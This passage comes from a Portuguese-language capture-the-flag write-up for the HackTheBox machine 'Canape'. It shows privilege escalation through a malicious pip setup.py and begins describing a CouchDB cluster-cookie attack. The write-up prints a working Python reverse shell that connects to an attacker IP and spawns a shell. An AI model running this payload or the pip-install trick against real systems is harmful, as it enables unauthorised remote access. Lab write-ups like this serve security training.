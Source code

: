 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_s2.png)

Ta beleza, conseguimos, mas vamos entender melhor, e fazer manual a parada... mais proveitoso pro conhecimento

## 2º Modo - manual

A ideia aqui é criar um "programa" em python, que na bucha seja um reverse shell pra nossa máquina. O pip por padrão vai procurar o arquivo setup.py na pasta que eu direcionar para realizar a instalação do pacote (pip é pra instalar pacotes em python)

Então, fazemos nosso `setup.py`

setup.py
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.117",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_s3.png)

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_user.png)

# Outros modos de se explorar o CouchDB

Agora vamos ver outras maneiras de se explorar o couchdb

Lendo um pouco mais sobre como funciona o couchdb verificamos outros pontos que podemos explorar (créditos ao 0xdf)

> https://docs.couchdb.org/en/stable/setup/cluster.html

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_d.png)

Essa porta 4369 que ele fala que podemos explorar não aparece quando executamos como homer nem como www-data, mas quando executamos como root o `netstat -nlpt` ela aparece

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_d1.png)

Sendo assim, sabemos que ela está sendo disponibilizada... Qual a ideia aqui? Ele diz na imagem acima, que quando essa porta 4369 está habilitada, o couchdb está funcionando em modo cluster, a única coisa que protege a aplicação é o cookie dele... e o cookie nós conseguimos pegar! Como? No próprio processo da aplicação tem descrito o cookie (setcookie)
